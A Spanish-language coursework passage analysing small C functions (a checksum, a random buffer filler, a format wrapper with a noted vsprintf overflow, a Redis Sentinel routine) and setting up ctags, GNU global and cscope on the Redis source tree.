    - Paso: por valor (puntero), se copian las direcciones de memoria, actuando como referencia a los datos. Evita la copia costosa de toda la estructura.
    - No es const.

  - `a2`:
    - Tipo: struct args_entry *. Puntero a la segunda estructura (RHS - Right Hand Side).
    - Paso: por valor (puntero), se copian las direcciones de memoria, actuando como referencia a los datos. Evita la copia costosa de toda la estructura.
    - No es const.

- **No hay `const` en los parámetros.**
- **Parámetros por defecto:** No.
- **No es varargs (variadic functions).** Esta función no acepta un número variable de argumentos.


### 4. Valor de retorno
- **Tipo:** int (Entero con signo).
- **Qué devuelve exactamente:** `a1->flag - a2->flag` → un entero negativo, cero o positivo según la relación de orden entre ambos flag.
- **No devuelve objetos** ni códigos complejos, solo el resultado de la comparación.


### 5. Comportamiento y Efectos secundarios
- **Lectura:** Lee memoria del heap/stack (flag).
- **Escritura:** Ninguna.
- **Estado Global:** No accede ni modifica nada fuera de sus parámetros.
- **Conclusión:** Sin efectos secundarios observables.


### 6. Pureza y Estado
- **¿Es una función pura?:** Sí.
  - Su valor de retorno depende exclusivamente de sus argumentos.
  - No tiene efectos secundarios (no imprime, no escribe en archivos, no modifica variables globales).

- **Transparencia referencial:** Sí. Podemos reemplazar la llamada a la función por el resultado de la resta (si tuviéramos acceso a los punteros) y el programa funcionaría igual.


### 7. Sistema de tipos y Visibilidad
- **Lenguaje:** C → tipado estático.
- **Usa tipos:** int, struct args_entry *.
- **Enlace (Linkage):** Interno.
  - La palabra clave static restringe la visibilidad al archivo fuente actual (Unidad de traducción).
  - No puede ser invocada directamente desde otros archivos .c (no se exporta el símbolo).


### 8. Relaciones con otras funciones y librerías
- No llama a otras funciones.
- Exporta: No. La palabra clave static al inicio de la declaración restringe la visibilidad de esta función únicamente al archivo fuente (.c) actual. No es visible para otros módulos (Enlace interno).

  
### 9. Ejecución y depuración
- Usa solo el runtime mínimo de C (operación aritmética).
- Mecanismo de carga: Al ser estática, su dirección se resuelve en tiempo de compilación/enlace dentro de su propia unidad de traducción.


### 10. Estructuras de control
- No hay estructuras de control (if, for, etc.).
- **Es un bloque lineal** simple que ejecuta una instrucción y retorna.
- Usa return para finalizar.


### 11. Análisis de malware / seguridad
Desde la óptica de malware, esta función:
- Solo lee un campo de dos estructuras y devuelve una resta.
- No accede a red, disco, procesos, registro, ni memoria dinámica.
- No hace ofuscación, ni anti-debug, ni nada similar.
- Segura en memoria: No realiza aritmética de punteros peligrosa ni escribe en memoria.

---------------------------

## Función 3


```
uint16_t checksum_generic(uint16_t *addr, uint32_t count)
{
    register unsigned long sum = 0;

    for (sum = 0; count > 1; count -= 2)
        sum += *addr++;
    if (count == 1)
        sum += (char)*addr;

    sum = (sum >> 16) + (sum & 0xFFFF);
    sum += (sum >> 16);

    return ~sum;
}
```


### 1. Identificación y propósito
- **Nombre:** checksum_generic
- **Contexto:** Algoritmo de verificación de integridad (Checksum).
- **¿Qué hace?:** Implementa el cálculo del Checksum de Internet (RFC 1071), estándar en protocolos como IP, TCP y UDP. Recorre un bloque de memoria apuntado por addr, suma palabras de 16 bits en una variable de mayor tamaño (unsigned long), maneja el posible byte sobrante y finalmente pliega la suma a 16 bits y le hace el complemento a uno. Devuelve ese checksum de 16 bits.

### 2. Naturaleza de la función
- **Clasificación:** Es función, devuelve un valor numérico explícito (`uint16_t`).
- **Origen:** Función de usuario.
- **¿Predicado?:** No; devuelve un valor numérico de checksum, no un booleano.
- **¿Función hoja?:** Sí. No realiza llamadas a otras funciones.


### 3. Signatura y parámetros
- **Signatura:** `uint16_t checksum_generic(uint16_t *addr, uint32_t count);`
- **Aridad:** 2 parámetros → función binaria.
- **Parámetros:**
  - `addr`:
    - Tipo: uint16_t *. Puntero a enteros sin signo de 16 bits (el buffer de datos).
    - Paso: Se pasa por valor (la dirección de memoria), actuando como referencia al buffer.
    - No está declarado como const, aunque no se modifica la memoria apuntada.

  - `count`:
    - Tipo: uint32_t. Entero sin signo de 32 bits (la cantidad de bytes a procesar).
    - Paso: por valor.
    - Se utiliza como contador de longitud: en el bucle for se va decrementando (count -= 2); esta modificación solo afecta al valor local dentro de la función.

- **Parámetros constantes:** No. Ninguno está declarado const, aunque semánticamente se usan como entrada solo.
- **Parámetros por defecto:** No tiene.
- **Varargs:** No hay parámetros Variables.


### 4. Valor de retorno
- **Tipo devuelto:** `uint16_t`. Entero sin signo de 16 bits.
- **Devuelve:** El valor del checksum calculado.
- **¿Devuelve un objeto creado dentro de ella?:** No, devuelve un valor primitivo.


### 5. Comportamiento y Efectos secundarios
- **Efectos Secundarios:** Ninguno.
- **Lectura de Memoria:** Solo lee el rango especificado por addr.
- **Mutación:** Solo muta sus propias variables locales (sum, copias locales de addr y count).
- **Conclusión: no tiene efectos secundarios observables.**


### 6. Pureza y Estado
- **¿Es pura?:** Sí. No modifica estado global ni parámetros. Solo lee la memoria a la que apuntan sus parámetros. Si el contenido de la memoria no cambia, siempre devuelve lo mismo → se puede considerar función pura (a efectos prácticos de análisis de código).
- Transparencia referencial: Sí.


### 7. Sistema de tipos y visibilidad
- **Lenguaje:** C → tipado estático.
- **Tipos Clave:** uint16_t (datos), uint32_t (contador), unsigned long (acumulador).  
- **Enlace (Linkage):** Enlace estático o dinámico dependiendo de cómo se compile el archivo objet


### 8. Relaciones con otras funciones y librerías
- No llama a ninguna otra función.
- **Exporta:** Sí.
 

### 9. Ejecución y depuración
- Usa solo el runtime básico de C (operaciones aritméticas y de desplazamiento).
- Si el binario se compila con símbolos de depuración, aparecerá con el nombre checksum_generic, pero esto depende de las opciones de compilación, no del código fuente.


### 10. Estructuras de control
- **Bifurcación:**
  - Un if (count == 1) para tratar el caso en que queda un byte sobrante.

- **Repetición:**
  - Bucle for (sum = 0; count > 1; count -= 2)
    Lee de dos en dos bytes (una palabra de 16 bits) mientras queden al menos 2 bytes.

- **Saltos / flujo:**
  - Solo un return al final (return ~sum;).
  - No hay break, continue, goto, ni excepciones (en C no hay try/catch).

### 11. Análisis de malware / seguridad
- Este tipo de función puede aparecer tanto en software legítimo (protocolos de red, verificación de integridad) como en malware (para validar payloads, comprobar integridad de código, etc.).
- Por sí sola no es indicador de comportamiento malicioso.
- Conclusión en clave malware: Es una rutina de checksum genérica, muy neutra; el posible uso malicioso dependería de qué datos se le pasan y desde dónde se llama, no de la función en sí.


---------------------------


## Función 4


```
void rand_str(char *str, int len) // Generate random buffer (not alphanumeric!) of length len
{
    while (len > 0)
    {
        if (len >= 4)
        {
            *((uint32_t *)str) = rand_next();
            str += sizeof (uint32_t);
            len -= sizeof (uint32_t);
        }
        else if (len >= 2)
        {
            *((uint16_t *)str) = rand_next() & 0xFFFF;
            str += sizeof (uint16_t);
            len -= sizeof (uint16_t);
        }
        else
        {
            *str++ = rand_next() & 0xFF;
            len--;
        }
    }
}
```


### 1. Identificación y propósito
- **Nombre:** rand_str.
- **Contexto:** Rutina de llenado de memoria con datos pseudo-aleatorios (Memory Fill / Random Generator).
- **Descripción:** Rellena un búfer apuntado por str con len bytes de datos aleatorios.
  - Estrategia de Optimización: En lugar de escribir byte a byte (lento), intenta escribir bloques de palabra de 32 bits (4 bytes) y media palabra (2 bytes) para reducir el número de accesos a memoria.
- **Nota Importante:** El comentario "not alphanumeric!" confirma que genera datos binarios crudos, no texto legible. Los bytes pueden tener cualquier valor entre 0x00 y 0xFF.


### 2. Naturaleza de la función
- **Clasificación:** Es un procedimiento (retorna void).
- **Origen:** Código de usuario (User-defined).
- **Nivel:** Bajo nivel (manipulación directa de punteros y memoria).
- **¿Predicado?:** No. Retorna void. Un predicado suele devolver un booleano (verdadero/falso) evaluando una condición lógica.
- **¿Función Hoja?:** No. Depende de rand_next(). No es una hoja (leaf function) en el árbol de llamadas.


### 3. Signatura y parámetros
- **Signatura:** `void rand_str(char *str, int len);`
- **Aridad:** 2 parámetros → función binaria.
- **Parámetros:**
  - `str` (Entrada/Salida): char *.
    - Puntero al inicio del bloque de memoria a llenar. Paso por valor.
    - No es const: explícitamente se usa para escritura.
    - Riesgo de Alineación: Al hacer cast a (uint32_t *), si la dirección de str no es múltiplo de 4, podría provocar un fallo de segmentación (Bus Error) en arquitecturas estrictas (como SPARC o ARM antiguos), aunque x86 lo tolera con penalización de rendimiento.
  - `len` (Entrada): int.
    - Entero que indica la longitud (cantidad de bytes) a escribir. Paso por valor.
    - Se usa como contador de bytes restantes; se va decrementando en el while.
    - Longitud en bytes. Se modifica localmente (decrementa) para controlar el bucle.

- **Parámetros `const`:** No.
- **Valores por defecto:** No.
- **No es varargs.** No acepta un número variable de argumentos.


### 4. Valor de retorno
- **Tipo devuelto:** void.
- **Qué “devuelve” en la práctica:** No hay valor de retorno; el “resultado” es el contenido del búfer str, que queda rellenado con valores pseudo-aleatorios.
- **Resultado:** La función opera exclusivamente mediante efectos secundarios (mutación del búfer).


### 5. Comportamiento y Efectos secundarios
- **Muta o lee valores fuera de su ámbito:** Muta valores en el heap o stack (el búfer str) que pertenece al ámbito del llamador ⇒ Tiene efectos secundarios claros, no es pura.
- **Mutación de Memoria:** Escribe directamente en el heap o stack del llamador.
- **Llamadas:** Invoca repetidamente a rand_next() para obtener entropía.
- **Estado Global:** Modifica implícitamente el estado del generador de números aleatorios (la "semilla" interna de rand_next).


### 6. Pureza y Estado
- **¿Es pura?:** No.
  - Depende de un generador externo (rand_next).
  - Muta la memoria externa (str).
  - No es determinista.
- **Transparencia Referencial:** No.


### 7. Sistema de tipos y Visibilidad
- **Lenguaje:** C (Tipado estático pero con punteros "débiles").
- **Casting (Type Punning):** La función realiza conversiones de tipo explícitas y arriesgadas: convierte un puntero char* a uint32_t* y uint16_t*.
  - Esto indica que el compilador debe tratar la misma dirección de memoria como diferentes tipos de datos para optimizar la escritura.
- **Enlace (Linkage):** Externo.
  - Al no tener la keyword static, la función es exportada y visible para cualquier otro archivo del proyecto que la enlace.


### 8. Relaciones con otras funciones y librerías
- Llama a: `rand_next()`: generador de números pseudo-aleatorios (probablemente implementado en el mismo proyecto o en una librería).
- No se ven otras dependencias directas (no hace llamadas de sistema, ni I/O, etc.).


### 9. Ejecución y depuración
- Requiere el runtime del generador de PRNG (rand_next()), pero por lo demás solo operaciones aritméticas / de punteros.
- No hay información en el código fuente sobre símbolos de depuración; eso depende de cómo se compile.


### 10. Estructuras de control
- **Repetición:** Un bucle while (len > 0) que va consumiendo longitud.

- **Bifurcación:**
  - Dentro del while, un if / else if / else:
    - len >= 4 → escribe 4 bytes de golpe (cast a uint32_t *).
    - len >= 2 → escribe 2 bytes (uint16_t *).
    - Si no, escribe 1 byte.

- **Saltos / flujo:**
  - No hay break, continue, goto.
  - El bucle termina cuando len llega a 0.


### 11. Análisis de malware / seguridad
- **Riesgo Técnico (Crash):** Problema de alineación de punteros.


---------------------------

## Función 5


``` 
static const char *TextFormat(const char *text, ...)
{
    #define MAX_FORMATTEXT_LENGTH   64

    static char buffer[MAX_FORMATTEXT_LENGTH];

    va_list args;
    va_start(args, text);
    vsprintf(buffer, text, args);
    va_end(args);

    return buffer;
}
```

### 1. Identificación y Propósito
- **Nombre:** TextFormat
- **Contexto:** Función envoltorio (wrapper) para formateo de cadenas en C.
- **Descripción:** Utilidad para formatear texto con argumentos variables (similar a printf) y devolverlo como una cadena utilizable.
  - Toma una cadena de formato (text) y argumentos variables (...).
  - Procesa los argumentos usando vsprintf.
  - Almacena el resultado en un búfer estático interno (buffer).
  - Devuelve un puntero a dicho búfer.
- **Nota Crítica:** Debido al uso de un static char buffer, el contenido devuelto es volátil: se sobrescribirá en la siguiente llamada a la función. No es persistente más allá de la siguiente invocación.

### 2. Naturaleza de la función
- **Clasificación:** Es una función (devuelve un valor explícito const char *).
- **Origen:** Función de usuario (User-defined function).
- **¿Es Predicado?:** No. Devuelve un puntero a caracteres constantes. Un predicado suele devolver un booleano (verdadero/falso) evaluando una condición lógica.
- **¿Es Función Hoja?: No.** Realiza llamadas a la biblioteca estándar (va_start, vsprintf, va_end).
- **¿Parámetros Variables?:** Sí. Es una función variádica (variadic function). En la deficinión de la función usa `...` que indica 🠮 Después de los parámetros fijos, la función puede recibir un número variable de argumentos.


### 3. Signatura y parámetros
- **Signatura:** `static const char *TextFormat(const char *text, ...);`
- **Aridad:** función de aridad variable (varargs):
  - Al menos 1 parámetro fijo (text).
  - Luego ... (lista de argumentos variables).
- **Parámetros por defecto:** No.

- **Parámetros:**
  - `text` (Fijo): const char *. Cadena de formato. Pasado por valor (el puntero), de solo lectura.
  - `...` (Variables): Lista de argumentos gestionada mediante macros de stdarg.h. Se pasan a través de la pila (stack).

### 4. Valor de retorno
- **Tipo:** const char * (Puntero a caracteres constantes).
- **Valor:** La dirección de memoria del arreglo estático buffer.
- **Semántica:** Devuelve una referencia a una zona de memoria compartida y mutable internamente.


### 5. Comportamiento y Efectos (Side Effects)
- **Modificación de Estado:** Sí. Modifica la variable estática buffer.
  - Aunque `buffer` está declarada dentro de la función, su almacenamiento es estático (vive durante toda la ejecución del programa) y mantiene su valor entre llamadas hasta que es sobrescrito.
- **Modificación de Globales:** Técnicamente modifica una variable con almacenamiento estático, que actúa funcionalmente como una variable global privada (con visibilidad restringida al ámbito de la función).
- **Llamadas:** Invoca a vsprintf (con efectos secundarios de escritura en memoria).


### 6. Pureza y Estado
- **¿Función Pura?:** No.
  - Depende de estado mutable (buffer).
  - No tiene transparencia referencial.

- **Seguridad de Hilos (Thread-Safety):** No.
  - No es reentrante. Si dos hilos llaman a TextFormat simultáneamente, se producirá una condición de carrera (race condition) corrompiendo el contenido del buffer.


### 7. Sistema de Tipos y Visibilidad
- **Sistema de Tipos:** Estático (C).
- **Ámbito (Scope):** De archivo / Módulo.
- **Enlace (Linkage):** Interno.
  - La palabra clave static en la declaración de la función (static const char *...) impide que esta función sea visible o enlazada desde otros archivos objeto (.o). Es privada para este módulo.


### 8. Relaciones con otras funciones y librerías
- Llama a:
  - va_start, va_end (macros/funciones de <stdarg.h>).
  - vsprintf (función de la libc para formatear en un buffer con va_list).


### 9. Ejecución y depuración
- Usa el runtime estándar de C (libc).
- Depuración normal; al ser static, su símbolo es interno al módulo.

### 10. Estructuras de control
- No tiene bucles ni condicionales.
- **Flujo lineal:**
  - Preparar va_list.
  - Llamar a vsprintf.
  - Cerrar va_list.
  - return buffer;.

### 11. Análisis de malware / seguridad
- **<mark>Vulnerabilidad Crítica (Buffer Overflow):<mark>**
  - Uso de vsprintf (en lugar de vsnprintf) en un búfer de tamaño fijo muy pequeño (`MAX_FORMATTEXT_LENGTH = 64 bytes`) → riesgo de desbordamiento de buffer si el resultado supera MAX_FORMATTEXT_LENGTH.
  - Si el texto formateado excede los 63 caracteres (+ terminador nulo), vsprintf escribirá fuera de los límites del arreglo buffer, corrompiendo la memoria adyacente (stack o sección de datos estáticos, dependiendo del compilador).


---------------------------

# Ejercicio 3 - Análisis de variables

Una función representa un punto de entrada, posiblemente con parámetros, que puede necesitar acceder a variables globales, que puede manipular ciertas variables y que, finalmente, retorna o no un resultado. En más, puede retornar no solo en un punto sino en varios, dado que también puede tomar decisiones mediante las estructuras de control que hemos estudiado.

Tenemos el código de una función y vamos a analizarla. Necesitamos señalar:
- Donde y que variables crea y necesita; cual es su ámbito.
- Donde modifica (escribe) los parámetros.
- Donde lee o modifica valores globales (fuera de la función o sus parámetros)
- Que estructuras de control posee. Debemos identificar los bucles (while, for, …), estructuras
selectivas (if, switch, …).
- Que puntos de salida posee y con que valor lo hacen.

```c
void sentinelPropagateDownAfterPeriod(sentinelRedisInstance *master) {
    dictIterator *di;
    dictEntry *de;
    int j;
    dict *d[] = {master->slaves, master->sentinels, NULL};
 
    for (j = 0; d[j]; j++) {
        di = dictGetIterator(d[j]);
        while((de = dictNext(di)) != NULL) {
            sentinelRedisInstance *ri = dictGetVal(de);
            ri->down_after_period = master->down_after_period;
        }
        dictReleaseIterator(di);
    }
}
```

## 1. Parámetros y retorno
- La función se llama sentinelPropagateDownAfterPeriod.
- Retorno: void → no devuelve ningún valor.
- Parámetro único (1): Toma un solo parámetro de tipo puntero a `sentinelRedisInstance` llamado `master`. Este parámetro se usa para leer valores iniciales y para propagar su configuración a otros objetos.


## 2. Variables locales que crea y necesita; ámbito de esas variables.
Dentro de la función se crean variables locales (su ámbito es todo el cuerpo de la función, salvo donde se indique):
- (2) `dictIterator *di;` Puntero a un iterador de diccionario. Se usa para recorrer los diccionarios de esclavos y sentinels.
- (3) `dictEntry *de;` Puntero a una entrada de diccionario, usada en el while.
- (4) `int j;` Entero usado como índice en el bucle for sobre el array d.
- (5) `dict *d[] = {master->slaves, master->sentinels, NULL};` Array local de punteros a `dict`.
  - `d[0]` apunta al diccionario de esclavos (master->slaves).
  - `d[1]` apunta al diccionario de sentinels (master->sentinels).
  - `d[2]` es NULL y actúa como marcador de final para el bucle for.

Dentro del bucle while se crea otra variable local, cuyo ámbito se limita al cuerpo del while:
- (6) `sentinelRedisInstance *ri = dictGetVal(de);` Puntero a sentinelRedisInstance, representa cada esclavo o sentinel extraído del diccionario actual.


## 3. Uso y modificación de parámetros
- El parámetro master no se modifica (no se le asigna un nuevo valor ni se cambia su dirección).
- Sí se leen varios campos de master:
  - En la inicialización del array d (línea 5):
    - `master->slaves`
    - `master->sentinels`

  - En el interior del while (línea 11):
    - `master->down_after_period` se usa como fuente del valor que se va a propagar.

Por tanto:
- master se usa como origen de información, nunca como destino de escritura directa.

## 4. Lectura - Escritura de valores globales
Aunque no vemos variables globales explícitas, sí se modifican estructuras que no son locales a la función:
- En la línea 11:
  - `ri->down_after_period = master->down_after_period;`
  - Se lee master->down_after_period (dato asociado al maestro).
  - Se escribe en ri->down_after_period. `ri` apunta a instancias obtenidas de los diccionarios master->slaves y master->sentinels, por lo que la función está modificando el campo down_after_period de todas esas instancias (esclavos y sentinels) accesibles a través del parámetro master.

Es decir, la función propaga el valor down_after_period del maestro al resto de instancias relacionadas.

- Modificación de memoria (Efecto lateral):
  - En la línea 10, modifica el objeto apuntado por ri.
  -     Escribe en ri->down_after_period el valor leído del parámetro master->down_after_period. Aquí es donde ocurre la "propagación" del valor.

## 5. Estructuras de control
- **Bucle for (líneas 7–14):**
  ```c
  for (j = 0; d[j]; j++) {
    ...
  }
  ```
  - Inicialización: j = 0.
  - Condición: d[j] → el bucle continúa mientras el elemento actual del array d no sea NULL.
  - Actualización: j++ en cada iteración.
  - Efecto: recorre los dos diccionarios (slaves y sentinels) definidos en el array d. El NULL final actúa de condición de parada.

- **Bucle while (líneas 9–12):**
  ```c
  while((de = dictNext(di)) != NULL) {
    ...
  }
  ```
  - Condición: el resultado de dictNext(di) se asigna a de y se compara con NULL.
  - La iteración continúa mientras dictNext devuelva una entrada válida de diccionario (de != NULL).
  - Efecto: recorre todas las entradas del diccionario actual d[j].
 
- **No hay estructuras selectivas** tipo if, switch en este fragmento.


## 6. Llamadas a funciones externas
- `dictGetIterator(d[j])` (línea 8)
  - Usa el diccionario actual `(d[j])` y devuelve un iterador que se guarda en di.

- `dictNext(di)` (línea 9)
  - Avanza el iterador `di` y devuelve la siguiente entrada `(dictEntry *)` o `NULL` al terminar.

- `dictGetVal(de)` (línea 10)
  - Obtiene el valor asociado a la entrada de diccionario de. Ese valor se interpreta como `sentinelRedisInstance *`.

- `dictReleaseIterator(di)` (línea 13)
  - Libera los recursos asociados al iterador `di` al terminar de recorrer el diccionario.

Estas funciones operan sobre estructuras que viven fuera de la función y representan el estado del programa (diccionarios de instancias).


## 7. Puntos de salida de la función
- La función no contiene `return` explícitos.
- Solo tiene un único punto de salida implícito:
  - Al llegar a la llave de cierre } (línea 15), finaliza la ejecución.
  - No se devuelve ningún valor (tipo void).

## 8. En resumen
- (1) Argumento tipo puntero a `sentinelRedisInstance` llamado master.
- (2, 3, 4) Variables locales:
  - `dictIterator *di`
  - `dictEntry *de`
  - `int j`
- (5) Variable local compuesta: `array dict *d[]` inicializado con:
  - `master->slaves`
  - `master->sentinels`
  - `NULL` como terminador
- (6) Dentro del while, variable local `sentinelRedisInstance *ri`.
- (7) Estructura de repetición for que recorre los elementos del `array d` hasta `NULL`.
- (8) Dentro del for, se crea un iterador de diccionario con dictGetIterator.
- (9) Estructura de repetición while que recorre todas las entradas de cada diccionario.
- (10) En cada iteración del while, se obtiene `ri` con `dictGetVal(de)` y se propaga:
  - `ri->down_after_period = master->down_after_period;`
- (11) Al salir del while, se libera el iterador con `dictReleaseIterator(di)`.
- (12) La función termina al final del bloque `(})`, sin valor de retorno `(void)`.


----------------------

# Ejercicio 4 - Bases de datos simbólicas


## 1. Pasos para crear una base de datos simbólica en las herramientas elegidas

### ctags
```sh
sudo apt install exuberant-ctags
ctags -R --languages=C --exclude=.git --exclude=deps .
```
donde:
- -R → recorre subdirectorios.
- --languages=C → solo código C (Redis es C).
- --exclude=... → no indexar .git ni deps (código de terceros).
- . → directorio actual.

Crea un archivo tags con todas las funciones, variables, etc.


### global
```
sudo apt install global
gtags
```
donde:
- Recorre los .c, .h, etc.
- Genera 3 archivos: GTAGS, GRTAGS, GPATH.


Ver todas las referencias (usos) de una función main:
```
global -rx main
```

donde:
- -r → significa “references”. Buscará todas las referencias/usos de main en el código (llamadas, apariciones, etc.), usando la base GRTAGS.
- -x → hace que la salida se muestre en formato “cross-reference”.


### cscope

Instalamos cscope y generamos un fichero con todos los .c y .h del proyecto:
```
sudo apt install cscope
find . -name '*.[ch]' > cscope.files
```

Vemos el fichero scope.files:


Construimos la base de datos
```
cscope -b -q -k -i cscope.files
```
donde:
- -b → solo construye la base de datos, no abre la interfaz.
- -q → índice rápido (añade cscope.in.out y cscope.po.out).
- -k → ignora cabeceras del sistema (no mira /usr/include).
- -i cscope.files → usa la lista de archivos que acabamos de generar.


Entramos en el menú interactivo y mostramos dónde se usa un símbolo `main`:
```
cscope -d
```
donde:
- -d → usa la base existente, no la reconstruye.


## 2. Busqueda de todas las funciones “main” que existen
Como sabrás, son las funciones principales de entrada a los distintos ejecutables que existen. Haz una captura o copia la lista resultante.

### Global
Buscamos todas las definiciones de main y las guardamos en un fichero de texto:
```
global -x main > lista_main.txt
```

Resultado:
```
main               43 deps/hiredis/examples/example-ae.c int main (int argc, char **argv) {
main               48 deps/hiredis/examples/example-glib.c main (gint argc     G_GNUC_UNUSED,
main               35 deps/hiredis/examples/example-ivykis.c int main (int argc, char **argv) {
main               35 deps/hiredis/examples/example-libev.c int main (int argc, char **argv) {
main               36 deps/hiredis/examples/example-libevent-ssl.c int main (int argc, char **argv) {
main               40 deps/hiredis/examples/example-libevent.c int main (int argc, char **argv) {
main               47 deps/hiredis/examples/example-libhv.c int main (int argc, char **argv) {
main               50 deps/hiredis/examples/example-libsdevent.c int main (int argc, char **argv) {
main               50 deps/hiredis/examples/example-libuv.c int main (int argc, char **argv) {
main               38 deps/hiredis/examples/example-macosx.c int main (int argc, char **argv) {
main               42 deps/hiredis/examples/example-poll.c int main (int argc, char **argv) {
main              106 deps/hiredis/examples/example-push.c int main(int argc, char **argv) {
main               36 deps/hiredis/examples/example-qt.cpp int main (int argc, char **argv) {
main               12 deps/hiredis/examples/example-ssl.c int main(int argc, char **argv) {
main               58 deps/hiredis/examples/example.c int main(int argc, char **argv) {
main             1289 deps/hiredis/sds.c int main(void) {
main             2266 deps/hiredis/test.c int main(int argc, char **argv) {
main                8 deps/jemalloc/msvc/test_threads/test_threads_main.cpp int main(int argc, char** argv) {
main               47 deps/jemalloc/test/analyze/prof_bias.c main(void) {
main              272 deps/jemalloc/test/analyze/rand.c main(void) {
main               32 deps/jemalloc/test/analyze/sizes.c main() {
main               63 deps/jemalloc/test/integration/MALLOCX_ARENA.c main(void) {
main              151 deps/jemalloc/test/integration/aligned_alloc.c main(void) {
main              116 deps/jemalloc/test/integration/allocated.c main(void) {
main               21 deps/jemalloc/test/integration/cpp/basic.cpp main() {
main               19 deps/jemalloc/test/integration/cpp/infallible_new_false.cpp main(void) {
main               63 deps/jemalloc/test/integration/cpp/infallible_new_true.cpp main(void) {
main              281 deps/jemalloc/test/integration/extent.c main(void) {
main               13 deps/jemalloc/test/integration/malloc.c main(void) {
main              267 deps/jemalloc/test/integration/mallocx.c main(void) {
main               56 deps/jemalloc/test/integration/overflow.c main(void) {
main              123 deps/jemalloc/test/integration/posix_memalign.c main(void) {
main              300 deps/jemalloc/test/integration/rallocx.c main(void) {
main               51 deps/jemalloc/test/integration/sdallocx.c main(void) {
main               77 deps/jemalloc/test/integration/slab_sizes.c main(void) {
main              305 deps/jemalloc/test/integration/smallocx.c main(void) {
main               83 deps/jemalloc/test/integration/thread_arena.c main(void) {
main               79 deps/jemalloc/test/integration/thread_tcache_enabled.c main(void) {
main              374 deps/jemalloc/test/integration/xallocx.c main(void) {
main              190 deps/jemalloc/test/stress/batch_alloc.c int main(void) {
main               72 deps/jemalloc/test/stress/fill_flush.c int main(void) {
main               66 deps/jemalloc/test/stress/hookbench.c main(void) {
main               29 deps/jemalloc/test/stress/large_microbench.c main(void) {
main               70 deps/jemalloc/test/stress/mallctl.c main(void) {
main              119 deps/jemalloc/test/stress/microbench.c main(void) {
main             1593 deps/jemalloc/test/unit/SFMT.c main(void) {
main               13 deps/jemalloc/test/unit/a0.c main(void) {
main              429 deps/jemalloc/test/unit/arena_decay.c main(void) {
main              355 deps/jemalloc/test/unit/arena_reset.c main(void) {
main              221 deps/jemalloc/test/unit/atomic.c main(void) {
main              113 deps/jemalloc/test/unit/background_thread.c main(void) {
main               92 deps/jemalloc/test/unit/background_thread_enable.c main(void) {
main              258 deps/jemalloc/test/unit/base.c main(void) {
main              182 deps/jemalloc/test/unit/batch_alloc.c main(void) {
main              149 deps/jemalloc/test/unit/binshard.c main(void) {
main              280 deps/jemalloc/test/unit/bit_util.c main(void) {
main              335 deps/jemalloc/test/unit/bitmap.c main(void) {
main              189 deps/jemalloc/test/unit/buf_writer.c main(void) {
main              381 deps/jemalloc/test/unit/cache_bin.c main(void) {
main              206 deps/jemalloc/test/unit/ckh.c main(void) {
main               76 deps/jemalloc/test/unit/counter.c main(void) {
main              274 deps/jemalloc/test/unit/decay.c main(void) {
main               26 deps/jemalloc/test/unit/div.c main(void) {
main               74 deps/jemalloc/test/unit/double_free.c main(void) {
main              220 deps/jemalloc/test/unit/edata_cache.c main(void) {
main              136 deps/jemalloc/test/unit/extent_quantize.c main(void) {
main              938 deps/jemalloc/test/unit/fb.c main(void) {
main              137 deps/jemalloc/test/unit/fork.c main(void) {
main              381 deps/jemalloc/test/unit/fxp.c main(void) {
main              168 deps/jemalloc/test/unit/hash.c main(void) {
main              574 deps/jemalloc/test/unit/hook.c main(void) {
main              441 deps/jemalloc/test/unit/hpa.c main(void) {
main              170 deps/jemalloc/test/unit/hpa_background_thread.c main(void) {
main              237 deps/jemalloc/test/unit/hpdata.c int main(void) {
main              103 deps/jemalloc/test/unit/huge.c main(void) {
main              274 deps/jemalloc/test/unit/inspect.c main(void) {
main              185 deps/jemalloc/test/unit/junk.c main(void) {
main              190 deps/jemalloc/test/unit/log.c main(void) {
main             1237 deps/jemalloc/test/unit/mallctl.c main(void) {
main               26 deps/jemalloc/test/unit/malloc_conf_2.c main(void) {
main              262 deps/jemalloc/test/unit/malloc_io.c main(void) {
main              382 deps/jemalloc/test/unit/math.c main(void) {
main              298 deps/jemalloc/test/unit/mpsc_queue.c main(void) {
main               84 deps/jemalloc/test/unit/mq.c main(void) {
main               53 deps/jemalloc/test/unit/mtx.c main(void) {
main              237 deps/jemalloc/test/unit/nstime.c main(void) {
main              128 deps/jemalloc/test/unit/oversize_threshold.c main(void) {
main              123 deps/jemalloc/test/unit/pa.c main(void) {
main              163 deps/jemalloc/test/unit/pack.c main(void) {
main               26 deps/jemalloc/test/unit/pages.c main(void) {
main               44 deps/jemalloc/test/unit/peak.c main(void) {
main              326 deps/jemalloc/test/unit/ph.c main(void) {
main              181 deps/jemalloc/test/unit/prng.c main(void) {
main               81 deps/jemalloc/test/unit/prof_accum.c main(void) {
main              116 deps/jemalloc/test/unit/prof_active.c main(void) {
main               74 deps/jemalloc/test/unit/prof_gdump.c main(void) {
main              164 deps/jemalloc/test/unit/prof_hook.c main(void) {
main               54 deps/jemalloc/test/unit/prof_idump.c main(void) {
main              143 deps/jemalloc/test/unit/prof_log.c main(void) {
main              211 deps/jemalloc/test/unit/prof_mdump.c main(void) {
main              670 deps/jemalloc/test/unit/prof_recent.c main(void) {
main              257 deps/jemalloc/test/unit/prof_reset.c main(void) {
main              147 deps/jemalloc/test/unit/prof_stats.c main(void) {
main               74 deps/jemalloc/test/unit/prof_sys_thread_name.c main(void) {
main               45 deps/jemalloc/test/unit/prof_tctx.c main(void) {
main              118 deps/jemalloc/test/unit/prof_thread_name.c main(void) {
main              735 deps/jemalloc/test/unit/psset.c main(void) {
main              306 deps/jemalloc/test/unit/ql.c main(void) {
main              236 deps/jemalloc/test/unit/qr.c main(void) {
main             1012 deps/jemalloc/test/unit/rb.c main(void) {
main              185 deps/jemalloc/test/unit/retained.c main(void) {
main              282 deps/jemalloc/test/unit/rtree.c main(void) {
main              153 deps/jemalloc/test/unit/safety_check.c main(void) {
main              202 deps/jemalloc/test/unit/san.c main(void) {
main              107 deps/jemalloc/test/unit/san_bump.c main(void) {
main               30 deps/jemalloc/test/unit/sc.c main(void) {
main              622 deps/jemalloc/test/unit/sec.c main(void) {
main               91 deps/jemalloc/test/unit/seq.c int main(void) {
main               74 deps/jemalloc/test/unit/size_check.c main(void) {
main              183 deps/jemalloc/test/unit/size_classes.c main(void) {
main               36 deps/jemalloc/test/unit/slab.c main(void) {
main               97 deps/jemalloc/test/unit/smoothstep.c main(void) {
main               15 deps/jemalloc/test/unit/spin.c main(void) {
main              420 deps/jemalloc/test/unit/stats.c main(void) {
main              995 deps/jemalloc/test/unit/stats_print.c main(void) {
